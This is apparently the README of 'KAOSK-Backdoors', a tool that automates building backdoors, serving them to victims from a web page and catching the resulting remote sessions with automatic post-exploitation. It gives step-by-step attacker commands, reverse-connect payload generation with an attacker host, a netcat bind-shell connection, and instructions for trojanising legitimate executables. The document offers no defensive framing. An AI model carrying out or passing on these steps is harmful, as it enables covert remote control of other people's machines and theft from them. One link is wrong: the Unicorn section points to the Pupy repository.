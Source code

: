 # KAOSK-Backdoors
==========
It's a tool that automates: 
+ the installation of some Backdoor's creation programs
+ the creation of the backdoors to use in a victim machine
+ a web where you can download the backdoors created
+ the listener of the backdoors downloaded
+ the actions of the listener

## Example
Using Kali2 as the attacker with IP: 192.168.0.100

Using any machine as the victim in the same network as the attacker.

Run in Kali:
+ git clone https://github.com/carlospolop/KAOSK-backdoors.git
+ cd ./KAOSK-backdoors
+ python ./install.py
+ python ./create_backdoors.py 192.168.0.100
+ python ./handler.py 192.168.0.100

In the victim machine:

Use a browser and navigate to 192.168.0.100/back and you will see the backdoors created before in the attacker machine.
Download the backdoor that you want to use.

Run the backdoor.


You will have a session of the victim's machine in Kali.

If you had chosen a backdoor created using msfvenom, backdoor-factory or unicorn, you will have a metasploit session of the victim. The metasploit's sessions can be configured to automatically run post modules, meterpreter commands and shell commands in the config folder. This means that when you capture a metasploit sessions this modules and commands will run automatically.

## Configure which metasploit payloads to use
You can select which metasploit payloads to use in the document called payloads.txt in the config folder.

Te sintax is: PAYLOAD PORT

## Configure which post modules, meterpreter commands and shell commands automatically run
You just have to go to the config folder and there you will find some folders of differents OS. Go inside anyone and you will find some text documents where you can write which post modules, meterpreters commands and shell commands run when you capture a session in a machine that uses the OS selected.

## Requirements
+ Python
+ Measploit
+ Backdoor-factory
+ Apache2

KAOSK has been tested in Kali2.

## Install
python ./install.py

## Create Backdoors
python ./create_backdoors.py IP_attacker

## Start handler
python ./handler.py IP_attacker


# To Know about the backdoors
--------------------
## Backdoors used:
+ Backdoor-factoy
+ MiaoMiao
+ Msfvenom
+ Pupy
+ RSPET
+ Unicorn

## Backdoor-factory
The backdoor-factory introduces the backdoors inside executables.

If you want to corrupt a executable, you just have to download the original, move it to the correct folder inside ./BDF_prepared and run python ./create_backdoors.py IP_attacker (or python ./backdoor-factoryAuto.py IP_attacker)

https://github.com/secretsquirrel/the-backdoor-factory.git

## MiaoMiao
This backdoor opens a port in the victims machine and the attacker connects to it. The default port is 55555
To use this backdoor you have to run:
+ Victim: Run MiaoMiamo_folder/src_backdoor/server_dist/newest_version
+ Attacker: nc IP_Victim 55555 -vv

https://github.com/marc0l92/MiaoMiao_project.git

## Msfvenom
Of course.

## Pupy
Creates differents types of backdoors and use it's own listener. It is all automated and the process followed to use these backdoors is:
+ Victim: Run the file create using ./pupygen.py -f lin_x64  connect --host IP_Attacker
+ Attacker: ./pupysh.py

https://github.com/n1nj4sec/pupy.git

## RSPET
To use this backdoor you have to run:
+ Victim: Run python RSPET_folder/Client/rspet_client.py IP_Attacker
+ Attacker: (This part is automated) Run Server > rspet_server.py 

https://github.com/panagiks/RSPET.git

## Unicorn
Creates differents types of backdoors and it is all automated.
Uses metasploit as listener.

https://github.com/n1nj4sec/pupy.git
